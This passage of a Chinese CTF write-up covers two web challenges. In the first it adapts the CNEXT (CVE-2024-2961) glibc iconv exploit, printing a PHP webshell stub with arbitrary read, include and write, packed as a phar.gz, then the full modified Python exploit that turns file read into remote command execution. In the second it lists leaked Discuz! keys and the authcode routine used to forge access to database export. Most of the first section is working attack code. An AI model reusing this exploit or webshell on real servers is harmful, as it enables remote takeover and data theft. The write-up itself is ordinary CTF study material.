me,getprotobynumber,getmyuid,getmygid,getmypid,getmyinode,getlastmod,base64_decode,base64_encode,password_hash,password_get_info,password_needs_rehash,password_verify,convert_uuencode,convert_uudecode,abs,ceil,floor,round,sin,cos,tan,asin,acos,atan,atanh,atan2,sinh,cosh,tanh,asinh,acosh,expm1,log1p,pi,is_finite,is_nan,is_infinite,pow,exp,log,log10,sqrt,hypot,deg2rad,rad2deg,bindec,hexdec,octdec,decbin,decoct,dechex,base_convert,number_format,fmod,intdiv,inet_ntop,inet_pton,ip2long,long2ip,getenv,putenv,getopt,sys_getloadavg,microtime,gettimeofday,getrusage,hrtime,uniqid,quoted_printable_decode,quoted_printable_encode,convert_cyr_string,get_current_user,set_time_limit,header_register_callback,get_cfg_var,get_magic_quotes_gpc,get_magic_quotes_runtime,error_log,error_get_last,error_clear_last,call_user_func,call_user_func_array,forward_static_call,forward_static_call_array,serialize,unserialize,var_export,debug_zval_dump,print_r,memory_get_usage,memory_get_peak_usage,register_shutdown_function,register_tick_function,unregister_tick_function,highlight_file,show_source,highlight_string,php_strip_whitespace,ini_get,ini_get_all,ini_set,ini_alter,ini_restore,get_include_path,set_include_path,restore_include_path,setcookie,setrawcookie,header,header_remove,headers_sent,headers_list,http_response_code,connection_aborted,connection_status,ignore_user_abort,parse_ini_file,parse_ini_string,is_uploaded_file,move_uploaded_file,gethostbyaddr,gethostbyname,gethostbynamel,gethostname,net_get_interfaces,dns_check_record,checkdnsrr,dns_get_mx,getmxrr,dns_get_record,intval,floatval,doubleval,strval,boolval,gettype,settype,is_null,is_resource,is_bool,is_int,is_float,is_integer,is_long,is_double,is_real,is_numeric,is_string,is_array,is_object,is_scalar,is_callable,is_iterable,is_countable,pclose,popen,readfile,rewind,rmdir,umask,fclose,feof,fgetc,fgets,fgetss,fread,fopen,fpassthru,ftruncate,fstat,fseek,ftell,fflush,fwrite,fputs,mkdir,rename,copy,tempnam,tmpfile,file,file_get_contents,stream_select,stream_context_create,stream_context_set_params,stream_context_get_params,stream_context_set_option,stream_context_get_options,stream_context_get_default,stream_context_set_default,stream_filter_prepend,stream_filter_append,stream_filter_remove,stream_socket_client,stream_socket_server,stream_socket_accept,stream_socket_get_name,stream_socket_recvfrom,stream_socket_sendto,stream_socket_enable_crypto,stream_socket_shutdown,stream_socket_pair,stream_copy_to_stream,stream_get_contents,stream_supports_lock,stream_isatty,fgetcsv,fputcsv,flock,get_meta_tags,stream_set_read_buffer,stream_set_write_buffer,set_file_buffer,stream_set_chunk_size,stream_set_blocking,socket_set_blocking,stream_get_meta_data,stream_get_line,stream_wrapper_register,stream_register_wrapper,stream_wrapper_unregister,stream_wrapper_restore,stream_get_wrappers,stream_get_transports,stream_resolve_include_path,stream_is_local,get_headers,stream_set_timeout,socket_set_timeout,socket_get_status,realpath,fnmatch,fsockopen,pfsockopen,pack,unpack,get_browser,crypt,opendir,closedir,chdir,getcwd,rewinddir,readdir,dir,scandir,glob,fileatime,filectime,filegroup,fileinode,filemtime,fileowner,fileperms,filesize,filetype,file_exists,is_writable,is_writeable,is_readable,is_executable,is_file,is_dir,is_link,stat,lstat,chown,chgrp,lchown,lchgrp,chmod,touch,clearstatcache,disk_total_space,disk_free_space,diskfreespace,realpath_cache_size,realpath_cache_get,mail,ezmlm_hash,openlog,syslog,closelog,lcg_value,metaphone,ob_start,ob_flush,ob_clean,ob_end_flush,ob_end_clean,ob_get_flush,ob_get_clean,ob_get_length,ob_get_level,ob_get_status,ob_get_contents,ob_implicit_flush,ob_list_handlers,ksort,krsort,natsort,natcasesort,asort,arsort,sort,rsort,usort,uasort,uksort,shuffle,array_walk,array_walk_recursive,count,end,prev,next,reset,current,key,min,max,in_array,array_search,extract,compact,array_fill,array_fill_keys,range,array_multisort,array_push,array_pop,array_shift,array_unshift,array_splice,array_slice,array_merge,array_merge_recursive,array_replace,array_replace_recursive,array_keys,array_key_first,array_key_last,array_values,array_count_values,array_column,array_reverse,array_reduce,array_pad,array_flip,array_change_key_case,array_rand,array_unique,array_intersect,array_intersect_key,array_intersect_ukey,array_uintersect,array_intersect_assoc,array_uintersect_assoc,array_intersect_uassoc,array_uintersect_uassoc,array_diff,array_diff_key,array_diff_ukey,array_udiff,array_diff_assoc,array_udiff_assoc,array_diff_uassoc,array_udiff_uassoc,array_sum,array_product,array_filter,array_map,array_chunk,array_combine,array_key_exists,pos,sizeof,key_exists,assert,assert_options,version_compare,ftok,str_rot13,stream_get_filters,stream_filter_register,stream_bucket_make_writeable,stream_bucket_prepend,stream_bucket_append,stream_bucket_new,output_add_rewrite_var,output_reset_rewrite_vars,sys_get_temp_dir,token_get_all,token_name,xml_parser_create,xml_parser_create_ns,xml_set_object,xml_set_element_handler,xml_set_character_data_handler,xml_set_processing_instruction_handler,xml_set_default_handler,xml_set_unparsed_entity_decl_handler,xml_set_notation_decl_handler,xml_set_external_entity_ref_handler,xml_set_start_namespace_decl_handler,xml_set_end_namespace_decl_handler,xml_parse,xml_parse_into_struct,xml_get_error_code,xml_error_string,xml_get_current_line_number,xml_get_current_column_number,xml_get_current_byte_index,xml_parser_free,xml_parser_set_option,xml_parser_get_option,xmlwriter_open_uri,xmlwriter_open_memory,xmlwriter_set_indent,xmlwriter_set_indent_string,xmlwriter_start_comment,xmlwriter_end_comment,xmlwriter_start_attribute,xmlwriter_end_attribute,xmlwriter_write_attribute,xmlwriter_start_attribute_ns,xmlwriter_write_attribute_ns,xmlwriter_start_element,xmlwriter_end_element,xmlwriter_full_end_element,xmlwriter_start_element_ns,xmlwriter_write_element,xmlwriter_write_element_ns,xmlwriter_start_pi,xmlwriter_end_pi,xmlwriter_write_pi,xmlwriter_start_cdata,xmlwriter_end_cdata,xmlwriter_write_cdata,xmlwriter_text,xmlwriter_write_raw,xmlwriter_start_document,xmlwriter_end_document,xmlwriter_write_comment,xmlwriter_start_dtd,xmlwriter_end_dtd,xmlwriter_write_dtd,xmlwriter_start_dtd_element,xmlwriter_end_dtd_element,xmlwriter_write_dtd_element,xmlwriter_start_dtd_attlist,xmlwriter_end_dtd_attlist,xmlwriter_write_dtd_attlist,xmlwriter_start_dtd_entity,xmlwriter_end_dtd_entity,xmlwriter_write_dtd_entity,xmlwriter_output_memory,xmlwriter_flush,fastcgi_finish_request,fpm_get_status,apache_request_headers,getallheaders,sodium_crypto_aead_aes256gcm_is_available,sodium_crypto_aead_aes256gcm_decrypt,sodium_crypto_aead_aes256gcm_encrypt,sodium_crypto_aead_aes256gcm_keygen,sodium_crypto_aead_chacha20poly1305_decrypt,sodium_crypto_aead_chacha20poly1305_encrypt,sodium_crypto_aead_chacha20poly1305_keygen,sodium_crypto_aead_chacha20poly1305_ietf_decrypt,sodium_crypto_aead_chacha20poly1305_ietf_encrypt,sodium_crypto_aead_chacha20poly1305_ietf_keygen,sodium_crypto_aead_xchacha20poly1305_ietf_decrypt,sodium_crypto_aead_xchacha20poly1305_ietf_keygen,sodium_crypto_aead_xchacha20poly1305_ietf_encrypt,sodium_crypto_auth,sodium_crypto_auth_keygen,sodium_crypto_auth_verify,sodium_crypto_box,sodium_crypto_box_keypair,sodium_crypto_box_seed_keypair,sodium_crypto_box_keypair_from_secretkey_and_publickey,sodium_crypto_box_open,sodium_crypto_box_publickey,sodium_crypto_box_publickey_from_secretkey,sodium_crypto_box_seal,sodium_crypto_box_seal_open,sodium_crypto_box_secretkey,sodium_crypto_kx_keypair,sodium_crypto_kx_publickey,sodium_crypto_kx_secretkey,sodium_crypto_kx_seed_keypair,sodium_crypto_kx_client_session_keys,sodium_crypto_kx_server_session_keys,sodium_crypto_generichash,sodium_crypto_generichash_keygen,sodium_crypto_generichash_init,sodium_crypto_generichash_update,sodium_crypto_generichash_final,sodium_crypto_kdf_derive_from_key,sodium_crypto_kdf_keygen,sodium_crypto_pwhash,sodium_crypto_pwhash_str,sodium_crypto_pwhash_str_verify,sodium_crypto_pwhash_str_needs_rehash,sodium_crypto_pwhash_scryptsalsa208sha256,sodium_crypto_pwhash_scryptsalsa208sha256_str,sodium_crypto_pwhash_scryptsalsa208sha256_str_verify,sodium_crypto_scalarmult,sodium_crypto_secretbox,sodium_crypto_secretbox_keygen,sodium_crypto_secretbox_open,sodium_crypto_secretstream_xchacha20poly1305_keygen,sodium_crypto_secretstream_xchacha20poly1305_init_push,sodium_crypto_secretstream_xchacha20poly1305_push,sodium_crypto_secretstream_xchacha20poly1305_init_pull,sodium_crypto_secretstream_xchacha20poly1305_pull,sodium_crypto_secretstream_xchacha20poly1305_rekey,sodium_crypto_shorthash,sodium_crypto_shorthash_keygen,sodium_crypto_sign,sodium_crypto_sign_detached,sodium_crypto_sign_ed25519_pk_to_curve25519,sodium_crypto_sign_ed25519_sk_to_curve25519,sodium_crypto_sign_keypair,sodium_crypto_sign_keypair_from_secretkey_and_publickey,sodium_crypto_sign_open,sodium_crypto_sign_publickey,sodium_crypto_sign_secretkey,sodium_crypto_sign_publickey_from_secretkey,sodium_crypto_sign_seed_keypair,sodium_crypto_sign_verify_detached,sodium_crypto_stream,sodium_crypto_stream_keygen,sodium_crypto_stream_xor,sodium_add,sodium_compare,sodium_increment,sodium_memcmp,sodium_memzero,sodium_pad,sodium_unpad,sodium_bin2hex,sodium_hex2bin,sodium_bin2base64,sodium_base642bin,sodium_crypto_scalarmult_base
```

​	基本上把命令执行函数都过滤了。

​	这里需要结合[ambionics/cnext-exploits: Exploits for CNEXT (CVE-2024-2961), a buffer overflow in the glibc's iconv()](https://github.com/ambionics/cnext-exploits/)漏洞进行利用。

​	源脚本是通过file_get_contents函数获取内容的，但是file_get_contents也被禁用：



​	同时allow_url_include未开启，include无法直接使用data://：



​	那么主要要修改这几个地方，首先下载文件，可以用cURL代替，data://用不了，就可以先上传文件，再读取上传的文件给php://filter：

```php
<?php
if (isset($_POST["download"])) {
    $ch = curl_init("file://". $_POST["download"]);
    curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    echo $data;
}
    
if (isset($_POST["include"])) {
    include $_POST["include"];
}

if (isset($_POST["content"]) && isset($_POST["path"])) {
    $content = $_POST["content"];
    if ($_POST["base64"]) {
    	$content = base64_decode($content);
    }
    file_put_contents($_POST["path"], $_POST["content"]);
}
?>
```

​	打包成phar.gz上传：

```php
<?php
// generate .phar
$phar = new Phar('exp.phar');
$phar->setStub('<?php 
if (isset($_POST["download"])) {
    $ch = curl_init("file://". $_POST["download"]);
    curl_setopt($ch, CURLOPT_PROTOCOLS_STR, "all");
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
    $data = curl_exec($ch);
    curl_close($ch);
    echo $data;
}
    
if (isset($_POST["include"])) {
    include $_POST["include"];
}

if (isset($_POST["content"]) && isset($_POST["path"])) {
    $content = $_POST["content"];
    if ($_POST["base64"]) {
    	$content = base64_decode($content);
    }
    file_put_contents($_POST["path"], $_POST["content"]);
}
__HALT_COMPILER(); ?>');
$phar->addFromString('nothing','OK');

// generate .phar.gz
$gz = gzopen("exp.phar.gz", 'wb');
gzwrite($gz, file_get_contents('exp.phar'));
gzclose($gz);
?>
```

​	修改后的cnext-exploit.py：

~~~python
#!/usr/bin/env python3
#
# CNEXT: PHP file-read to RCE (CVE-2024-2961)
# Date: 2024-05-27
# Author: Charles FOL @cfreal_ (LEXFO/AMBIONICS)
#
# TODO Parse LIBC to know if patched
#
# INFORMATIONS
#
# To use, implement the Remote class, which tells the exploit how to send the payload.
#

from __future__ import annotations

import base64
import zlib

from dataclasses import dataclass
from requests.exceptions import ConnectionError, ChunkedEncodingError

from pwn import *
from ten import *

import random
import string


HEAP_SIZE = 2 * 1024 * 1024
BUG = "劄".encode("utf-8")


class Remote:
    """A helper class to send the payload and download files.
    
    The logic of the exploit is always the same, but the exploit needs to know how to
    download files (/proc/self/maps and libc) and how to send the payload.
    
    The code here serves as an example that attacks a page that looks like:
    
    ```php
    <?php
    
    $data = file_get_contents($_POST['file']);
    echo "File contents: $data";
    ```
    
    Tweak it to fit your target, and start the exploit.
    """

    def __init__(self, url: str) -> None:
        self.url = url
        self.session = Session()

    def send(self, path: str) -> Response:
        """Sends given `path` to the HTTP server. Returns the response.
        """
        # return self.session.post(self.url, data={"file": path})
        return self.session.post(self.url, data={"include": path})
    
    # --------
    def upload(self, path: str, content: str) -> Response:
        return self.session.post(self.url, data={"path": path, "content": content})
    
    def iconv(self, filters: str | None, content: str | bytes) -> Response:
        filename = "".join(random.choices(string.ascii_letters, k=6))
        path = f"/tmp/{filename}"
        self.upload(path, content)
        return self.send(f"php://filter{filters}/resource={path}")
    # --------

        
    def download(self, path: str) -> bytes:
        """Returns the contents of a remote file.
        """
        # path = f"php://filter/convert.base64-encode/resource={path}"
        # response = self.send(path)
        # data = response.re.search(b"File contents: (.*)", flags=re.S).group(1)
        # return base64.decode(data)
        return self.session.post(self.url, data={"download": path}).content

@entry
@arg("url", "Target URL")
@arg("command", "Command to run on the system; limited to 0x140 bytes")
@arg("sleep", "Time to sleep to assert that the exploit worked. By default, 1.")
@arg("heap", "Address of the main zend_mm_heap structure.")
@arg(
    "pad",
    "Number of 0x100 chunks to pad with. If the website makes a lot of heap "
    "operations with this size, increase this. Defaults to 20.",
)
@dataclass
class Exploit:
    """CNEXT exploit: RCE using a file read primitive in PHP."""

    url: str
    command: str
    sleep: int = 1
    heap: str = None
    pad: int = 20

    def __post_init__(self):
        self.remote = Remote(self.url)
        self.log = logger("EXPLOIT")
        self.info = {}
        self.heap = self.heap and int(self.heap, 16)

    def check_vulnerable(self) -> None:
        """Checks whether the target is reachable and properly allows for the various
        wrappers and filters that the exploit needs.
        """
        # --------
        def safe_iconv(filters: str, content: str) -> Response:
            try:
                return self.remote.iconv(filters, content)
            except ConnectionError:
                failure("Target not [b]reachable[/] ?")
        # --------
        
        def safe_download(path: str) -> bytes:
            try:
                return self.remote.download(path)
            except ConnectionError:
                failure("Target not [b]reachable[/] ?")
            

        def check_token(text: str, filters: str, content: str) -> bool:
        # def check_token(text: str, path: str) -> bool:
            # result = safe_download(path)
            result = safe_iconv(filters, content).content
            return text.encode() == result

        text = tf.random.string(50).encode()
        # base64 = b64(text, misalign=True).decode()
        # path = f"data:text/plain;base64,{base64}"
        
        # result = safe_download(path)
        result = safe_iconv("", text).content
        
        if text not in result:
            msg_failure("Remote.download did not return the test string")
            print("--------------------")
            print(f"Expected test string: {text}")
            print(f"Got: {result}")
            print("--------------------")
            failure("If your code works fine, it means that the [i]data://[/] wrapper does not work")

        msg_info("The [i]data://[/] wrapper works")

        text = tf.random.string(50)
        # base64 = b64(text.encode(), misalign=True).decode()
        # path = f"php://filter//resource=data:text/plain;base64,{base64}"
        # if not check_token(text, path):
        if not check_token(text, "/", text):
            failure("The [i]php://filter/[/] wrapper does not work")

        msg_info("The [i]php://filter/[/] wrapper works")

        text = tf.random.string(50)
        # base64 = b64(compress(text.encode()), misalign=True).decode()
        # path = f"php://filter/zlib.inflate/resource=data:text/plain;base64,{base64}"

        # if not check_token(text, path):
        if not check_token(text, "/zlib.inflate", compress(text.encode())):
            failure("The [i]zlib[/] extension is not enabled")

        msg_info("The [i]zlib[/] extension is enabled")

        msg_success("Exploit preconditions are satisfied")

    def get_file(self, path: str) -> bytes:
        with msg_status(f"Downloading [i]{path}[/]..."):
            return self.remote.download(path)

    def get_regions(self) -> list[Region]:
        """Obtains the memory regions of the PHP process by querying /proc/self/maps."""
        maps = self.get_file("/proc/self/maps")
        maps = maps.decode()
        PATTERN = re.compile(
            r"^([a-f0-9]+)-([a-f0-9]+)\b" r".*" r"\s([-rwx]{3}[ps])\s" r"(.*)"
        )
        regions = []
        for region in table.split(maps, strip=True):
            if match := PATTERN.match(region):
                start = int(match.group(1), 16)
                stop = int(match.group(2), 16)
                permissions = match.group(3)
                path = match.group(4)
                if "/" in path or "[" in path:
                    path = path.rsplit(" ", 1)[-1]
                else:
                    path = ""
                current = Region(start, stop, permissions, path)
                regions.append(current)
            else:
                print(maps)
                failure("Unable to parse memory mappings")

        self.log.info(f"Got {len(regions)} memory regions")

        return regions

    def get_symbols_and_addresses(self) -> None:
        """Obtains useful symbols and addresses from the file read primitive."""
        regions = self.get_regions()

        LIBC_FILE = "/dev/shm/cnext-libc"

        # PHP's heap

        self.info["heap"] = self.heap or self.find_main_heap(regions)

        # Libc

        libc = self._get_region(regions, "libc-", "libc.so")

        self.download_file(libc.path, LIBC_FILE)

        self.info["libc"] = ELF(LIBC_FILE, checksec=False)
        self.info["libc"].address = libc.start

    def _get_region(self, regions: list[Region], *names: str) -> Region:
        """Returns the first region whose name matches one of the given names."""
        for region in regions:
            if any(name in region.path for name in names):
                break
        else:
            failure("Unable to locate region")

        return region

    def download_file(self, remote_path: str, local_path: str) -> None:
        """Downloads `remote_path` to `local_path`"""
        data = self.get_file(remote_path)
        Path(local_path).write(data)

    def find_main_heap(self, regions: list[Region]) -> Region:
        # Any anonymous RW region with a size superior to the base heap size is a
        # candidate. The heap is at the bottom of the region.
        heaps = [
            region.stop - HEAP_SIZE + 0x40
            for region in reversed(regions)
            if region.permissions == "rw-p"
            and region.size >= HEAP_SIZE
            and region.stop & (HEAP_SIZE-1) == 0
            and region.path in ("", "[anon:zend_alloc]")
        ]

        if not heaps:
            failure("Unable to find PHP's main heap in memory")

        first = heaps[0]

        if len(heaps) > 1:
            heaps = ", ".join(map(hex, heaps))
            msg_info(f"Potential heaps: [i]{heaps}[/] (using first)")
        else:
            msg_info(f"Using [i]{hex(first)}[/] as heap")

        return first

    def run(self) -> None:
        self.check_vulnerable()
        self.get_symbols_and_addresses()
        self.exploit()

    def build_exploit_path(self) -> str:
        """On each step of the exploit, a filter will process each chunk one after the
        other. Processing generally involves making some kind of operation either
        on the chunk or in a destination chunk of the same size. Each operation is
        applied on every single chunk; you cannot make PHP apply iconv on the first 10
        chunks and leave the rest in place. That's where the difficulties come from.

        Keep in mind that we know the address of the main heap, and the libraries.
        ASLR/PIE do not matter here.

        The idea is to use the bug to make the freelist for chunks of size 0x100 point
        lower. For instance, we have the following free list:

        ... -> 0x7fffAABBCC900 -> 0x7fffAABBCCA00 -> 0x7fffAABBCCB00

        By triggering the bug from chunk ..900, we get:

        ... -> 0x7fffAABBCCA00 -> 0x7fffAABBCCB48 -> ???

        That's step 3.

        Now, in order to control the free list, and make it point whereever we want,
        we need to have previously put a pointer at address 0x7fffAABBCCB48. To do so,
        we'd have to have allocated 0x7fffAABBCCB00 and set our pointer at offset 0x48.
        That's step 2.

        Now, if we were to perform step2 an then step3 without anything else, we'd have
        a problem: after step2 has been processed, the free list goes bottom-up, like:

        0x7fffAABBCCB00 -> 0x7fffAABBCCA00 -> 0x7fffAABBCC900

        We need to go the other way around. That's why we have step 1: it just allocates
        chunks. When they get freed, they reverse the free list. Now step2 allocates in
        reverse order, and therefore after step2, chunks are in the correct order.

        Another problem comes up.

        To trigger the overflow in step3, we convert from UTF-8 to ISO-2022-CN-EXT.
        Since step2 creates chunks that contain pointers and pointers are generally not
        UTF-8, we cannot afford to have that conversion happen on the chunks of step2.
        To avoid this, we put the chunks in step2 at the very end of the chain, and
        prefix them with `0\n`. When dechunked (right before the iconv), they will
        "disappear" from the chain, preserving them from the character set conversion
        and saving us from an unwanted processing error that would stop the processing
        chain.

        After step3 we have a corrupted freelist with an arbitrary pointer into it. We
        don't know the precise layout of the heap, but we know that at the top of the
        heap resides a zend_mm_heap structure. We overwrite this structure in two ways.
        Its free_slot[] array contains a pointer to each free list. By overwriting it,
        we can make PHP allocate chunks whereever we want. In addition, its custom_heap
        field contains pointers to hook functions for emalloc, efree, and erealloc
        (similarly to malloc_hook, free_hook, etc. in the libc). We overwrite them and
        then overwrite the use_custom_heap flag to make PHP use these function pointers
        instead. We can now do our favorite CTF technique and get a call to
        system(<chunk>).
        We make sure that the "system" command kills the current process to avoid other
        system() calls with random chunk data, leading to undefined behaviour.

        The pad blocks just "pad" our allocations so that even if the heap of the
        process is in a random state, we still get contiguous, in order chunks for our
        exploit.

        Therefore, the whole process described here CANNOT crash. Everything falls
        perfectly in place, and nothing can get in the middle of our allocations.
        """

        LIBC = self.info["libc"]
        ADDR_EMALLOC = LIBC.symbols["__libc_malloc"]
        ADDR_EFREE = LIBC.symbols["__libc_system"]
        ADDR_EREALLOC = LIBC.symbols["__libc_realloc"]

        ADDR_HEAP = self.info["heap"]
        ADDR_FREE_SLOT = ADDR_HEAP + 0x20
        ADDR_CUSTOM_HEAP = ADDR_HEAP + 0x0168

        ADDR_FAKE_BIN = ADDR_FREE_SLOT - 0x10

        CS = 0x100

        # Pad needs to stay at size 0x100 at every step
        pad_size = CS - 0x18
        pad = b"\x00" * pad_size
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = chunked_chunk(pad, len(pad) + 6)
        pad = compressed_bucket(pad)

        step1_size = 1
        step1 = b"\x00" * step1_size
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1)
        step1 = chunked_chunk(step1, CS)
        step1 = compressed_bucket(step1)

        # Since these chunks contain non-UTF-8 chars, we cannot let it get converted to
        # ISO-2022-CN-EXT. We add a `0\n` that makes the 4th and last dechunk "crash"

        step2_size = 0x48
        step2 = b"\x00" * (step2_size + 8)
        step2 = chunked_chunk(step2, CS)
        step2 = chunked_chunk(step2)
        step2 = compressed_bucket(step2)

        step2_write_ptr = b"0\n".ljust(step2_size, b"\x00") + p64(ADDR_FAKE_BIN)
        step2_write_ptr = chunked_chunk(step2_write_ptr, CS)
        step2_write_ptr = chunked_chunk(step2_write_ptr)
        step2_write_ptr = compressed_bucket(step2_write_ptr)

        step3_size = CS

        step3 = b"\x00" * step3_size
        assert len(step3) == CS
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = chunked_chunk(step3)
        step3 = compressed_bucket(step3)

        step3_overflow = b"\x00" * (step3_size - len(BUG)) + BUG
        assert len(step3_overflow) == CS
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = chunked_chunk(step3_overflow)
        step3_overflow = compressed_bucket(step3_overflow)

        step4_size = CS
        step4 = b"=00" + b"\x00" * (step4_size - 1)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = chunked_chunk(step4)
        step4 = compressed_bucket(step4)

        # This chunk will eventually overwrite mm_heap->free_slot
        # it is actually allocated 0x10 bytes BEFORE it, thus the two filler values
        step4_pwn = ptr_bucket(
            0x200000,
            0,
            # free_slot
            0,
            0,
            ADDR_CUSTOM_HEAP,  # 0x18
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            ADDR_HEAP,  # 0x140
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            0,
            size=CS,
        )

        step4_custom_heap = ptr_bucket(
            ADDR_EMALLOC, ADDR_EFREE, ADDR_EREALLOC, size=0x18
        )

        step4_use_custom_heap_size = 0x140

        COMMAND = self.command
        COMMAND = f"kill -9 $PPID; {COMMAND}"
        if self.sleep:
            COMMAND = f"sleep {self.sleep}; {COMMAND}"
        COMMAND = COMMAND.encode() + b"\x00"

        assert (
            len(COMMAND) <= step4_use_custom_heap_size
        ), f"Command too big ({len(COMMAND)}), it must be strictly inferior to {hex(step4_use_custom_heap_size)}"
        COMMAND = COMMAND.ljust(step4_use_custom_heap_size, b"\x00")

        step4_use_custom_heap = COMMAND
        step4_use_custom_heap = qpe(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = chunked_chunk(step4_use_custom_heap)
        step4_use_custom_heap = compressed_bucket(step4_use_custom_heap)

        pages = (
            step4 * 3
            + step4_pwn
            + step4_custom_heap
            + step4_use_custom_heap
            + step3_overflow
            + pad * self.pad
            + step1 * 3
            + step2_write_ptr
            + step2 * 2
        )

        resource = compress(compress(pages))
        # resource = b64(resource)
        # resource = f"data:text/plain;base64,{resource.decode()}"

        filters = [
            # Create buckets
            "zlib.inflate",
            "zlib.inflate",
            
            # Step 0: Setup heap
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 1: Reverse FL order
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 2: Put fake pointer and make FL order back to normal
            "dechunk",
            "convert.iconv.L1.L1",
            
            # Step 3: Trigger overflow
            "dechunk",
            "convert.iconv.UTF-8.ISO-2022-CN-EXT",
            
            # Step 4: Allocate at arbitrary address and change zend_mm_heap
            "convert.quoted-printable-decode",
            "convert.iconv.L1.L1",
        ]
        filters = "|".join(filters)
        path = f"php://filter/read={filters}/resource={resource}"

        # return path
        return f"/read={filters}", resource

    @inform("Triggering...")
    def exploit(self) -> None:
        # path = self.build_exploit_path()
        filters, content = self.build_exploit_path()
        start = time.time()

        try:
            # self.remote.send(path)
            self.remote.iconv(filters, content)
        except (ConnectionError, ChunkedEncodingError):
            pass
        
        msg_print()
        
        if not self.sleep:
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/] [i](probably)[/]")
        elif start + self.sleep <= time.time():
            msg_print("    [b white on black] EXPLOIT [/][b white on green] SUCCESS [/]")
        else:
            # Wrong heap, maybe? If the exploited suggested others, use them!
            msg_print("    [b white on black] EXPLOIT [/][b white on red] FAILURE [/]")
        
        msg_print()


def compress(data) -> bytes:
    """Returns data suitable for `zlib.inflate`.
    """
    # Remove 2-byte header and 4-byte checksum
    return zlib.compress(data, 9)[2:-4]


def b64(data: bytes, misalign=True) -> bytes:
    payload = base64.encode(data)
    if not misalign and payload.endswith("="):
        raise ValueError(f"Misaligned: {data}")
    return payload.encode()


def compressed_bucket(data: bytes) -> bytes:
    """Returns a chunk of size 0x8000 that, when dechunked, returns the data."""
    return chunked_chunk(data, 0x8000)


def qpe(data: bytes) -> bytes:
    """Emulates quoted-printable-encode.
    """
    return "".join(f"={x:02x}" for x in data).upper().encode()


def ptr_bucket(*ptrs, size=None) -> bytes:
    """Creates a 0x8000 chunk that reveals pointers after every step has been ran."""
    if size is not None:
        assert len(ptrs) * 8 == size
    bucket = b"".join(map(p64, ptrs))
    bucket = qpe(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = chunked_chunk(bucket)
    bucket = compressed_bucket(bucket)

    return bucket


def chunked_chunk(data: bytes, size: int = None) -> bytes:
    """Constructs a chunked representation of the given chunk. If size is given, the
    chunked representation has size `size`.
    For instance, `ABCD` with size 10 becomes: `0004\nABCD\n`.
    """
    # The caller does not care about the size: let's just add 8, which is more than
    # enough
    if size is None:
        size = len(data) + 8
    keep = len(data) + len(b"\n\n")
    size = f"{len(data):x}".rjust(size - keep, "0")
    return size.encode() + b"\n" + data + b"\n"


@dataclass
class Region:
    """A memory region."""

    start: int
    stop: int
    permissions: str
    path: str

    @property
    def size(self) -> int:
        return self.stop - self.start


Exploit()

~~~

​	执行EXP：

```
python cnext-exploit.py 'http://challenge.xinshi.fun:48876/?down=exp.phar.gz' '/readflag > /tmp/output'
```






## 我曾有份工作(复现)

​	参考Phrinky师傅的[博客](https://blog.rkk.moe/2025/08/18/LilCTF-2025-Writeup/#我曾有一份工作)

​	根据题目提示，允许扫描器，同时提到了备份，推测存在备份文件，使用dirsearch扫描：



​	下载得到www.zip文件，发现是 Discuz! X3.5 的源码，简单按时间顺序筛选一下，存在config相关的设置被修改，同时存在install.lock文件（表示这是已经安装完毕的）。



​	有几个关键信息的泄露：

```php
config.inc.php:
define('UC_FOUNDERPW', '$2y$10$RSD3O/ntamR.wwhTSmy5l.NwlmNv89xtPbMd6Kfw.3we0SYDK75Ly');
define('UC_FOUNDERSALT', '');
define('UC_KEY', 'X8Pa61w0P4u6M6reReTdc3seTdqbcf61Jbtde4TeD8w6na8dqeD7j2w9E9YeC6Db');
define('UC_SITEID', 'p8saE1f0P4c6h6PePewd93he0d8bZfJ1Kb7dO4SeU8o61aadvef7L2l909heb6Bb');
define('UC_MYKEY', 's8qaN140b4R6b6YeGe0d53Oeddwbhf41Nb6dk49eU8s6xagdRem7q2A9s9Ge56vb');

config_global.php:
$_config['security']['authkey'] = 'c1e02a82142e896f2a8c0827687e2069Cg5sprDVlAfUhNjS2Xqelo9mJcfnSWY0';
$_config['remote']['appkey'] = '62cf0b3c3e6a4c9468e7216839721d8e';

config_ucenter.php:
define('UC_KEY', 'N8ear1n0q4s646UeZeod130eLdlbqfs1BbRd447eq866gaUdmek7v2D9r9EeS6vb');
```

​	提示flag在pre_a_flag表中，最终目标则应该是数据库。

​	简单搜索可以发现api/db/dbbak.php实现了数据库导出的功能：



​	并且使用UC_KEY生成的authcode进行权限认证。

​	使$apptype=='discuzx'，那么UC_KEY也就是config_ucenter.php中的`N8ear1n0q4s646UeZeod130eLdlbqfs1BbRd447eq866gaUdmek7v2D9r9EeS6vb`了。

​	加密示例：



​	函数原型：

```php
function _authcode($string, $operation = 'DECODE', $key = '', $expiry = 0) {
	$ckey_length = 4;

	$key = md5($key ? $key : UC_KEY);
	$keya = md5(substr($key, 0, 16));
	$keyb = md5(substr($key, 16, 16));
	$keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

	$cryptkey = $keya.md5($keya.$keyc);
	$key_length = strlen($cryptkey);

	$string = $operation == 'DECODE' ? base64_decode(substr($string, $ckey_length)) : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);

	$result = '';
	$box = range(0, 255);

	$rndkey = array();
	for($i = 0; $i <= 255; $i++) {
